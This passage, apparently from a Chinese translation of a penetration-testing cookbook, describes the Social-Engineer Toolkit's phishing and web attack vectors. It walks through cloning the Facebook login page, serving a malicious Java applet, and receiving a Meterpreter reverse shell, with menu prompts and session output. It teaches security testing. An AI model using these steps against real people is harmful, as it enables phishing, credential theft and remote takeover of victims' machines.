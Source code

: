电子邮件攻击的成功取决于我们所针对的电子邮件客户端。因此，对这种攻击向量进行适当的分析是必不可少的。

## 它是如何工作的...

如前所述，钓鱼攻击向量是一种针对特定用户的社会工程攻击向量。一封电子邮件从攻击机器发送到目标用户。电子邮件将包含一个恶意附件，该附件将利用目标机器上已知的漏洞，并为攻击者提供一个 shell 连接。SET 自动化了整个过程。社会工程在这里发挥的主要作用是建立一个对目标完全合法的情景，并愚弄目标下载恶意文件并执行它。

# 网站攻击向量

SET 的“web 攻击”向量是利用多种基于 Web 的攻击方式来 compromise 目标受害者的独特方式。这是迄今为止 SET 最受欢迎的攻击向量。它类似于浏览器自动攻击，可以向目标浏览器发送多个（或特定）攻击。它具有以下攻击向量：

```
1\. The Java Applet Attack Method
2\. The Metasploit Browser Exploit Method
3\. Credential Harvester Attack Method
4\. Tabnabbing Attack Method
5\. Man Left in the Middle Attack Method
6\. Web Jacking Attack Method
7\. Multi-Attack Web Method
8\. Return to the previous menu 
```

在这个示例中，我们将讨论最流行的攻击向量，即 Java 小程序攻击方法。让我们看看如何使用 SET 执行这种攻击。

## 准备工作

要开始使用 Java 小程序攻击方法，我们必须选择第一个选项。然后在下一步中，我们将被提示选择网页设置。我们可以选择自定义模板或克隆完整的 URL。让我们看看克隆如何帮助我们执行攻击。

## 如何做...

目标用户将不得不访问渗透测试人员决定克隆的网站。因此，渗透测试人员应该明白，克隆站点不应该偏离实际站点的功能，即钓鱼站点。

1.  要开始克隆选项，我们必须决定要克隆的 URL。让我们克隆 Facebook 登录页面并进一步进行：

```
    1\. Web Templates
    2\. Site Cloner
    3\. Custom Import
    4\. Return to the main menu
    Enter number (1-4): 2
    SET supports both HTTP and HTTPS
    Example: http://www.thisisafakesite.com
    Enter the url to clone: http://www.facebook.com
    [*] Cloning the website: https://login.facebook.com/login.php
    [*] This could take a little bit... 
    ```

1.  一旦我们完成了克隆部分，我们将被提示选择一个有效载荷以及一个可以放置在目标机器上的后门。

1.  完成这些步骤后，SET 网络服务器将启动，并且 msf 也将启动。Msf 将管理处理程序，一旦有效载荷被放置到目标机器中，将接收反向连接。

1.  您可以在`/pentest/exploits/set/src/web_clone/site/template`找到您的克隆模板以及 jar。现在一旦目标用户访问克隆的网站（托管在假域名上），将弹出一个小程序消息，看起来完全是一个安全的警报消息：![操作步骤...](img/7423_10_03.jpg)

现在一旦目标用户点击**允许**，恶意小程序就会被执行，并允许执行有效载荷。Metasploit 监听器将从目标机器接收到一个连接，因此我们将拥有一个活动会话：

```
[*] Sending stage (748544 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.103:443 ->
Thu Sep 09 10:06:57 -0400 2010
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 2988 created.